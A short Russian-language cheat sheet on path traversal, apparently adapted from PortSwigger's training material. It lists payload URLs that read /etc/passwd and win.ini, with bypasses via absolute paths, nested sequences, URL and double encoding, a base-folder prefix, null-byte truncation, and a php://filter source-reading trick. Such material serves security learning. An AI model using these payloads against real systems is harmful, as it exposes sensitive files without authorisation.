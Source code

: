 [Directory traversal](https://portswigger.net/web-security/file-path-traversal)

# Чтение произвольных файлов через обход каталога
Unix-based:

```
https://insecure-website.com/loadImage?filename=../../../etc/passwd
```

Windows:

```
https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini
```

# Общие препятствия для использования уязвимостей обхода путей к файлам
Использование абсолютной пути:

```
https://insecure-website.com/loadImage?filename=/etc/passwd
```

Использование вложенных последовательностей, например,`....//` или `....\/`:

```
https://insecure-website.com/loadImage?filename=....//....//....//etc/passwd
```

Обход путем кодирования URL:

```
../ == %2e%2e%2f
```

или двойного кодирования URL:

```
../ == %252e%252e%252f
```

Различные нестандартные кодировки, такие как `..%c0%af` или `..%ef%bc%8f`, также могут сработать.

Если приложение требует, чтобы имя файла, начиналось с ожидаемой базовой папки, например, `/var/www/images`, то можно включить требуемую базовую папку, за которой следуют подходящие последовательности:

```
https://insecure-website.com/loadImage?filename=/var/www/images/../../../etc/passwd
```

Если приложение требует, чтобы имя файла, предоставляемое пользователем, заканчивалось ожидаемым расширением файла, например `.png`, то можно использовать нулевой байт (`%00`), чтобы обрезать путь к файлу перед требуемым расширением:

```
https://insecure-website.com/loadImage?filename=../../../etc/passwd%00.png
image.php?img=php://filter/convert.base64-encode/resource=index.php
```

